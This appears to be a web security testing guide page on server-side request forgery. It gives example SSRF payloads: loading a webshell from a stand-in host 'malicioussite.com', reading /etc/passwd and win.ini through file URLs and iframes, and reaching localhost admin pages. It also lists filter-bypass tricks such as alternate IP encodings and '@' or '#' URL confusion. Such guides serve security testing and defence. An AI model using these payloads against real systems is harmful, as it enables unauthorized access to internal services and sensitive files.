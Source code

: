 # Testing for Server-Side Request Forgery

## Summary

Often web applications may have to interact with internal or external resources in order to provide a certain functionality, with the expectation tha only the service providing that functionality will be used, but often such functionality processes user data and if not handled properly it can open the door for certain injection attacks that we call SSRF. A successful SSRF attack can grant the attacker access to restricted actions, internal services, internal files within the application or the organization. In some cases it can even lead to RCE.

Some of the main mitigation techniques include IP whitelisting and URL filtering. You can find out more on the
[OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

## Test Objectives

- Identify injection points (External resource calls, API calls)
- Test if the SSRF is exploitable
- Asses the severity of the vulnerability

## How to Test

When testing for SSRF we are trying to trick the server into loading/writing unintended content. The most common test is for local and remote file inclusion, but there is another facet to SSRF, a trust relationship that often arises with server-side request forgery where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses or are restricted to certain hosts. Since they are protected by the network topology, they often lack more sophisticated controls.

Such internal systems often contain sensitive data or functionality.

If we have the following request:

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=about.php
```

We can try the following payloads:

Return the content of an external resource like a webshell.

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=https://malicioussite.com/shell.php
```

Use the localhost/loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host than you have enough privileges to directly access the `admin` page.

These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, is often what makes SSRF into a critical vulnerability.

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=http://localhost/admin  #Alternative http://127.0.0.1/admin
```

Fetch a local file

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=file:///etc/passwd
```

All of the examples above apply to POST requests, they can also be injected into headers if the header data is used in such a way.
One important note on SSRF with post requests is that the SSRF might turn into a Blind SSRF, because the application might not return anything, but anyway that data might be used in another functionality like PDF reports for example.

You can find more on Blind SSRF [here](https://portswigger.net/web-security/ssrf/blind), or in the [References section](#references)

### PDF Generators

There are some cases where server converts uploaded file to a pdf.Try injecting `<iframe>`, `<img>`, `<base>` or `<script>` elements or CSS url() functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height=”400">
```

### Common filter bypass

Some applications block references to `localhost` and `127.0.0.1`, this can be circumvented by:

- Using alternative IP representation such as such as 2130706433, 017700000001, or 127.1 which evaluated to 127.0.0.1
- String obfuscation
- Registering your own domain that resolves to 127.0.0.1

Sometimes the application allows input that matches a certain expression, like a domain. That can be circumvented if the URL schema parser is not properly implemented.

- Using the `@` character: `https://expected-domain@attacker-domain`
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- URL encoding
- Fuzzing
- Combinations of all of the above

You can find more payloads [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

## Tools

- Burpsuite
- ZAP

## References

- [SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [SSRF](https://portswigger.net/web-security/ssrf)
- [Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
